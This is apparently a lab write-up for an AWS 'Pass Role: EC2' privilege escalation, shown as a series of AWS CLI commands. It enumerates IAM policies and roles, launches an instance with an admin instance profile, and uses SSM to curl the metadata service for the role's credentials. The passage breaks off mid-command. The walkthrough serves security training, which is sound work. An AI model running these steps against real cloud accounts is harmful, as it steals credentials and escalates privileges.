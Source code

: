 ### Pass Role : EC2

Configure the profile with the credentials provided. Then, list the policies attached to the user. Also, list inline policies attached to the user.

```
aws iam list-attached-user-policies --user-name student --profile PTAcademyJllerena
aws iam list-user-policies --user-name student --profile PTAcademyJllerena

```

![image](https://user-images.githubusercontent.com/46797181/222875109-e7bdae68-e3f5-4287-aeb7-507b8bc83216.png)


Attempt to create a user on the AWS account. `aws iam create-user --user-name jllerena --profile PTAcademyJllerena` A denied message is received 
![image](https://user-images.githubusercontent.com/46797181/222875129-893f9c02-3e0e-4f23-8ae6-b10c9f482c7e.png)

Check the policy permissions and details. `aws iam get-user-policy --user-name student --policy-name ConfigureEC2Role --profile PTAcademyJllerena` 
![image](https://user-images.githubusercontent.com/46797181/222875168-43144363-8658-4f2a-80c7-4bd2e3fd6484.png)

The student user can run EC2 instances and pass a role to the EC2 instance. Since the student user also has permission to interact with the SSM service, the student user can execute commands on the EC2 instances via SSM. List role on AWS account which can be passed to EC2 service. `aws iam list-roles --profile PTAcademyJllerena` 

![image](https://user-images.githubusercontent.com/46797181/222875518-d3d8cd2b-989d-4717-8ad9-9d44a9b4531c.png)

Check ec2admin role policies and permissions. `aws iam list-role-policies --role-name ec2admin --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/222875564-89c4e963-4626-46d8-b02a-b2d279a2c073.png)

Check policy permissions. `aws iam get-role-policy --role-name ec2admin --policy-name terraform-20230304040647411800000003 --profile PTAcademyJllerena` 
![image](https://user-images.githubusercontent.com/46797181/222875825-abad55e4-4966-4574-918e-90584843e934.png)

Find AMI id for Amazon Linux 2 AMI. `aws ec2 describe-images --owners amazon --filters 'Name=name,Values=amzn-ami-hvm-*-x86_64-gp2' 'Name=state,Values=available' --output json --profile PTAcademyJllerena | jq -r '.Images | sort_by(.CreationDate) | last(.[]).ImageId'`

The value obtained is `ami-07bf5557ac8caacca`
![image](https://user-images.githubusercontent.com/46797181/222876826-128122a8-3573-40ee-be28-0ba117df9acc.png)

Check the subnets available in the AWS account `aws ec2 describe-subnets --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/222877273-1e36b971-e35a-43c2-8a7f-01c189a9be89.png)

Take note of subnet id `subnet-0c344c41445db179a` 

Describe security groups `aws ec2 describe-security-groups --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/222877654-4470573b-8865-42ed-badb-0189e7af4922.png)

Take note of the security group ID `sg-085ec1c95a24f2950` 

List instance profiles for the AWS account. `aws iam list-instance-profiles --profile PTAcademyJllerena` 
![image](https://user-images.githubusercontent.com/46797181/222877770-11f75618-fae1-401e-a9b7-c33410cb64e2.png)

Take note of instance profile name `ec2_admin`

Start an ec2 instance using collected details. `aws ec2 run-instances --subnet-id subnet-0c344c41445db179a --image-id ami-07bf5557ac8caacca --iam-instance-profile Name=ec2_admin --instance-type t2.micro --security-group-ids "sg-085ec1c95a24f2950" --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222877971-1bafeef4-d464-4bdb-899c-69be1178e1db.png)

Run commands on the remote ec2 instance using SSM. `aws ssm send-command \
--document-name "AWS-RunShellScript" \
--parameters 'commands=["curl
http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2admin/"]' \
--targets "Key=instanceids,Values=i-0aa5cdcaf86dec148" \
--comment "aws cli 1"



















